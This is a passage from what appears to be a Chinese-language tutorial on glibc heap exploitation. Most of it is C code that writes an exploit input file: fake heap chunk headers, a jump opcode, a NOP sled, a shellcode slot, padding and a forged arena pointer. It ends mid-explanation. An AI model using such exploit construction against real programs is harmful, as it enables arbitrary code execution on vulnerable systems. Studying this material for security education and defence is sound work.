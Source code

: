 ``` c
                        /* Chunk 724 contains the shellcode. */
                        fwrite("\xeb\x18\x00\x00", 4, 1, stdout); /* prev_size  - Jmp 24 bytes，eb is jmp opcode */
                        fwrite("\x0d\x04\x00\x00", 4, 1, stdout); /* size */
                        fwrite("\x00\x00\x00\x00", 4, 1, stdout); /* fd */
                        fwrite("\x00\x00\x00\x00", 4, 1, stdout); /* bk */
                        fwrite("\x00\x00\x00\x00", 4, 1, stdout); /* fd_nextsize */
                        fwrite("\x00\x00\x00\x00", 4, 1, stdout); /* bk_nextsize */
                        fwrite("\x90\x90\x90\x90\x90\x90\x90\x90" \
                        "\x90\x90\x90\x90\x90\x90\x90\x90", 16, 1, stdout);  /* NOPS */
                        fwrite(scode, sizeof(scode)-1, 1, stdout); /* SHELLCODE */
                        for(j=0;j<230;j++)
                                fwrite("\x42\x42\x42\x42", 4, 1, stdout); /* PAD */
                        continue;
                } else {
                        fwrite("\x00\x00\x00\x00", 4, 1, stdout); /* prev_size */
                        fwrite("\x09\x04\x00\x00", 4, 1, stdout); /* size */
                }
                if(i==720) {
                        for(j=0;j<90;j++)
                                fwrite("\x42\x42\x42\x42", 4, 1, stdout); /* PAD */
                        fwrite("\x18\xa0\x04\x08", 4, 1, stdout); /* Arena Pointer */
                        for(j=0;j<165;j++)
                                fwrite("\x42\x42\x42\x42", 4, 1, stdout); /* PAD */
                } else {
                        for(j=0;j<256;j++)
                                fwrite("\x42\x42\x42\x42", 4, 1, stdout); /* PAD */
                }
        }
        return 0;
}
```
攻击者生成数据文件作为用户输入，漏洞程序的堆内存变为如下所示：  